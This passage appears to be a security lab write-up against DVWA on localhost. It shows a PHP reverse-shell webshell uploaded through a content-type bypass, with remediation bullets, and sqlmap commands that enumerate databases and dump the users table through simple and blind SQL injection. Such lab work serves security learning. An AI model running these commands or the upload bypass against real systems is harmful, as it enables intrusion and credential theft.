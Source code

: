 ## Proof Of Concept
<img width="587" height="949" alt="image" src="https://github.com/user-attachments/assets/07d68aa8-0194-4840-b00b-471d74601672" />
<img width="1252" height="948" alt="image" src="https://github.com/user-attachments/assets/79d5992a-5d30-4686-a297-93b58500534c" />
*Webshell uploaded with image content-type bypass*
<img width="933" height="465" alt="image" src="https://github.com/user-attachments/assets/f73dc7de-19f2-4b3f-a844-8ab20a5cf022" />
visit http://localhost/hackable/uploads/php-reverse-shell.php

## 🛡️ Remediation
- Validate file content, not just headers
- Implement file type verification
- Restrict executable upload directories

---


# SQL Injection Exploitation with SQLMap

## Simple SQL Injection
<img width="950" height="937" alt="image" src="https://github.com/user-attachments/assets/27212330-a322-476a-b6fc-3bb803990506" />
<img width="950" height="937" alt="image" src="https://github.com/user-attachments/assets/3afdabf7-833b-4b68-b756-92a34c51cd3b" />
**Automated Commands:**
```bash
# Save request to file first, then:
sqlmap -r request.txt -p id --batch --dbs
sqlmap -r request.txt -p id --batch -D dvwa --tables
sqlmap -r request.txt -p id --batch -D dvwa -T users --dump
```

## Blind SQL Injection
<img width="950" height="937" alt="image" src="https://github.com/user-attachments/assets/977b68c3-b4b8-46f4-a378-7f2501830706" />
<img width="950" height="937" alt="image" src="https://github.com/user-attachments/assets/ffeb547e-99ba-4a2a-947e-b79b8ea1cc99" />

**Automated Commands:**
```bash
# Save request to file first, then:
sqlmap -r request.txt -p id --batch --technique=B --dbs
sqlmap -r request.txt -p id --batch --technique=B -D dvwa -T users --dump
```

## Quick Exploitation
```bash
# Simple SQLi
sqlmap -r request.txt -p id --batch --current-db

# Blind SQLi  
sqlmap -r request.txt -p id --batch --technique=B --current-db
```
